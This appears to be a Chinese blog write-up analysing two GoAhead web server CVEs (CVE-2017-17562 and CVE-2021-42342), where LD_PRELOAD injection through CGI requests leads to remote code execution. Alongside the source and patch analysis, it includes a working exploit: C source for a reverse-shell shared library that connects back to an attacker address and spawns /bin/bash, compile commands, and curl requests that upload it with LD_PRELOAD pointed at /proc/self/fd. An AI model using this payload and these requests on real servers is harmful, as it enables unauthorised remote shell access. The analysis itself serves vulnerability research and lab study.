



CVE-2017-17562
漏洞简述
GoAhead支持运行ASP、Javascript和标准的CGI程序，这个漏洞出自CGI程序
该漏洞是利用服务器初始化CGI时，使用了HTTP请求参数，使用特殊的参数名LD_PRELOAD劫持libc库，进而实现远程命令执行
影响范围
GoAhead Web Server < 3.6.5
漏洞分析
漏洞出现在goahead/src/cgi.c中的cgihandler中
cgi.c描述：
This module implements the /cgi-bin handler. CGI processing differs from
goforms processing in that each CGI request is executed as a separate
process, rather than within the webserver process. For each CGI request the
environment of the new process must be set to include all the CGI variables
and its standard input and output must be directed to the socket. This
is done using temporary files.
在函数中的137行逻辑中，将http的请求参数分割为键值对的形式

之后在162行中只对REMOTE_HOST HTTP_AUTHORIZATION这两个键值进行了过滤，其他的，比如这里的漏洞利用LD_PRELOAD完全信任
之后在180行左右将输入输出指向了一个临时文件
我们可以跟进websGetCgiCommName函数查看临时文件
跟进websTempFile 在goahead.c中有

这里可以知道如果没有指定路径，默认是/tmp路径
之后找到launchCgi的处理函数在cgi.c的533行左右
可以知道先打开stdIn以及stdOut指向的文件即两个tmp文件，然后创建子进程，在子进程中将进程的标准输入与输出重定向到了两个打开文件句柄中，最后调用execve去启动新进程执行cgi文件，cgi可执行文件执行的过程中，标准输入会从stdIn文件中获取，标准输出会输出到stdOut文件中。execve启动的第三个参数envp即是之前cgiHandler解析过的envp数组，以此实现将cgi可执行程序的变量放入到环境变量中所以这里就可以使用 LD_PRELOAD配合/proc/self/fd/0实现代码执行
所以如果我们将相同构造的evil.so放在http的POST body部分，发送?LD_PRELOAD=/proc/self/fd/0就会加载我们的恶意so文件
漏洞搭建及利用
这里直接使用vulhub的docker-compose.yml了
docker-compose up -d
成功访问cgi-bin下的index
构造payload:
evil.c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>
char *server_ip="";
uint32_t server_port=7777;
static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
int sock = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in attacker_addr = {0};
attacker_addr.sin_family = AF_INET;
attacker_addr.sin_port = htons(server_port);
attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
exit(0);
dup2(sock, 0);
dup2(sock, 1);
dup2(sock, 2);
execve("/bin/bash", 0, 0);
}编译
gcc exp.c -fPIC -s -shared -o evil.so
发送evil.so
curl -X POST --data-binary @evil.so http://192.168.153.136:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0

成功反弹shell
CVE-2021-42342
漏洞简述
这个CVE和上面那个CVE类似，同样是使用LD_PRELOAD来进行利用
我们来看看官方针对上面CVE的修复
同样是在cgi.c中对应位置，他增加了LD开头的过滤
但是他这里使用了一个strim方法
跟进
这里的vp将恒为0，而且在后面也使用sfmt格式化字符串，但是同样的也需要s->arg!=0才会进入执行，它默认状态下是为0的
当然，也同样在http.c中添加了让他为1进入if语句
影响范围
在2021.5.19的时候官方默认关闭了CGI配置（DEV: remove options/trace routes from default · embedthis/goahead@65afbf1 (github.com)）
存在有cgi-bin目录且存在有cgi文件
GoAhead web-server=4.x
5.x<=GoAhead web-server<5.1.5漏洞分析
通过前面的补丁分析，我们知道他加上了前缀处理
在GoAhead进行开启时，调用http.c#websServer完成初始化处理
之后如果是存在上传文件功能
在upload.c中，默认的上传文件目录是/tmp
在processUploadHeader中构造此次HTTP请求结构体的uploadTmp值
跟进websTempFile
与前面分析差不多，会生成一个/tmp/tmp-0.tmp的临时文件
之后会在processContentData处理上传文件时，将调用writeToFile写入文件

在最后响应请求的时候，就会调用route.c#websRunRequest方法，其中有两个方法websSetQueryVars websSetFormVars
这2个函数都调用了addFormVars, 他们都会将arg置为1进行环境变量的重命名
但是在调用websSetFormVars方法时需要满足if语句，前提是wp-flags取值为WEB_FORM
当content-type为multipart/form-data时，wp-flags将赋值为WEBS_UPLOAD，也就是说，如果HTTP请求为文件上传类型时，参数将不会通过addFormVars处理，此时s->arg取值仍然为0，从而在cgi.c#cgiHandler中将不会重命名环境变量
在http.c#parseHeaders进行了判断
所以我们就可以通过表单的方式传入LD_PRELOAD环境变量
漏洞搭建及利用
Dockerfile
FROM debian:buster
RUN set -ex \
&& apt-get update \
&& apt-get install wget make gcc -y \
&& wget -qO- https://github.com/embedthis/goahead/archive/refs/tags/v5.1.4.tar.gz | tar zx --strip-components 1 -C /usr/src/ \
&& cd /usr/src \
&& make SHOW=1 ME_GOAHEAD_UPLOAD_DIR="'\"/tmp\"'" \
&& make install \
&& cp src/self.key src/self.crt /etc/goahead/ \
&& mkdir -p /var/www/goahead/cgi-bin/ \
&& apt-get purge -y --auto-remove wget make gcc \
&& cd /var/www/goahead \
&& rm -rf /usr/src/ /var/lib/apt/lists/* \
&& sed -e 's!^# route uri=/cgi-bin dir=cgi-bin handler=cgi$!route uri=/cgi-bin dir=/var/www/goahead handler=cgi!' -i /etc/goahead/route.txt
COPY hello /var/www/goahead/cgi-bin/hello
RUN chmod +x /var/www/goahead/cgi-bin/hello
EXPOSE 8081
CMD ["goahead", "-v", "--home", "/etc/goahead", "/var/www/goahead", "0.0.0.0:8081"]hello
#!/bin/bash
echo -e "Content-Type: text/plain\n"
envdocker-compose.yml
version: '2'
services:
web:
image: vulhub/goahead:5.1.4
ports:
- "8080:80"
volumes:
- ./hello:/var/www/goahead/cgi-bin/hello这里可以使用Dockerfile构建镜像，或者使用上面的docker-compose.yml构建容器，但是后者需要进入容器给hello可执行权限，当然也可以构造另一个Dockerfile直接一步完成
docker-compose up -d构造成功
探测注入：
可以发现成功写入了环境变量
构造payload:
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" http://192.168.153.136:8080/cgi-bin/hello但是这个payload不得行，按照p神的说法有几个坑
GoAhead在遇到上传表单的时候，会先将这个上传的文件保存在一个临时目录下，待脚本程序处理完成后删掉这个临时文件，默认是在
--home的相对目录tmp中，可以通过宏ME_GOAHEAD_UPLOAD_DIR指定（可以在/etc/goahead下创建tmp目录或者在Dockerfile中make SHOW=1 ME_GOAHEAD_UPLOAD_DIR="'\"/tmp\"'"指定宏）这里POST的数据将会大于
ME_GOAHEAD_LIMIT_POST, 在代码http.c#parseHeader
我们可以在编译的时候通过-s缩小大小没有fd文件描述符
当然，如果像这里有env输出了临时文件的位置，我们完全可以直接通过LD_PRELOAD=/tmp/tmp-xxx直接包含，实战中当然不可能也有其他解法
一. 添加脏数据并将HTTP的Content-Length设置成小于最终的数据包Body大小这样，GoAhead读取数据包的时候能够完全读取到payload.so的内容，但实际这个文件并没有上传完毕
`curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/7" -x http://127.0.0.1:8081 http://192.168.153.136:8080/cgi-bin/hello`二：抓包爆破
/proc/self/fd/$7$成功反弹shell
参考
GoAhead环境变量注入复现踩坑记 | CN-SEC 中文网


- Post link: https://roboterh.github.io/2022/07/01/GoAhead%E5%8E%86%E5%8F%B2%E6%B4%9E%E5%88%86%E6%9E%90/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.